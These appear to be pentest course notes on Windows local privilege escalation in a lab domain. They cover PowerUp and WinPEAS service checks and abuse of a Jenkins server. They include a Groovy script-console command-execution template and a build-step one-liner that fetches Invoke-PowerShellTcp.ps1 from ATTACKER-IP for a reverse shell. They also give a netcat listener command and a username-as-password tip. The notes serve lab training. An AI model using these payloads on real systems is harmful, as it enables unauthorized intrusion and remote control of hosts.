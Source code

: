 
# **Local Privilege Escalation**

There are various ways of locally escalating privileges on windows box -:
- Missing patches
- Automated deployment and Auto Logon passwords in clear text
- AlwaysInstallElevated (Any user can run MSI as SYSTEM)
- Misconfigured Services
- DLL Hijacking and more
- NTLM Relaying a.k.a won't fix


We can use below tools for complete coverage


- PowerUp - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- PrivEsc - https://github.com/enjoiz/Privesc
- WinPEAS - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/

Service Issues using `PowerUp`

- Get services with unquoted paths and a space in their name


```powershell
$ Get-ServiceUnqouted -Verbose
```



- Get services where the current user can write to its binary or change arguments to the binary

```powershell
$ Get-ModifiableServiceFile -Verbose
```



- Get the services whose configuration current user can modify

```powershell
$ Get-ModifiableService -Verbose
```



We can also automate this by using the below commands


```powershell
# For Powerup
$ Invoke-AllChecks

# For PrivEsc
$ Invoke-PrivEsc

# For PEASS-ng
$ winPEASx64.exe
```


**Feature Abuse**

• What we have been doing up to now (and will keep doing further in the
class) is relying on features abuse.
• Features abuse are awesome as there are seldom patches for them and
they are not the focus of security teams!
• One of my favorite features abuse is targeting enterprise applications
which are not built keeping security in mind.
• On Windows, many enterprise applications need either Administrative
privileges or SYSTEM privileges making them a great avenue for privilege
escalation.

**Example - Jenkins -:**


• Let’s use an older version of Jenkins as an example of vulnerable
Enterprise application.
• Jenkins is a widely used Continuous Integration tool.
• There are many interesting aspects with Jenkins but for now we would
limit our discussion to the ability of running system commands on
Jenkins.
• There is a Jenkins server running on dcorp-ci (172.16.3.11) on port
8080.

**Exploit -:**

- If we have admin access (default installation before 2.x)
- Navigate to `http://<jenkins_server/script`
- Now paste in below groovy script, Make sure to replace [INSERT COMMAND] with your own command

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```



- If you don't have admin access but could add or edit build steps in the build configuration. 
- Add a build step, Navigate to `/job/Project0/configure` (If you get a `403` keep changing Project0 to Project1, Pro...2, ..........3 till you get a `200`)
- Scroll down to the option "**Build steps**" and on the drop down select/add "**Execute Windows Batch Command**" and enter-:

```
powershell iex (iwr -UseBasicParsing http://ATTACKER-IP/Invoke-PowerShellTcp.ps1);power -Reverse -IPAddress ATTACKER-IP -Port 443
```

- Now we can go ahead and start up a listener with netcat using the `netcat.exe` version to listen on the specified port

```bat
$ C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
```

- Also we need to host our `Invoke-PowerShellTcp.ps1` script as stated in the payload, we can use a tool called **HTTP File Server (HFS)** or just try to google what works for you (Drag and drop the `Invoke-PowerShellTcp.ps1` to the left pane )


![](https://i.imgur.com/0MnoHoT.png)

- We also need to turn off windows firewall for this to work, so do that also


![](https://i.imgur.com/ksH2Ukn.png)



 
- Again, you could download and execute scripts, run encoded scripts and more.


> **General Note :** Many users use their username as password so make sure to try something like `manager:manager`



# **Learning Objective 5**


- Exploit a service on dcorp-studentx and elevate privileges to local administrator.
- Identify a machine in the domain where studentx has local administrative access. 
- Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server


## **Solution**


**_Coming Soon_**

> **Note :** Renaming a local admin account might be recommended but renaming a domain admin account is not recommended



# **Domain Enumeration Cont'd - BloodHound**


- Com



# **Local Privilege Escalation Cont'D - **

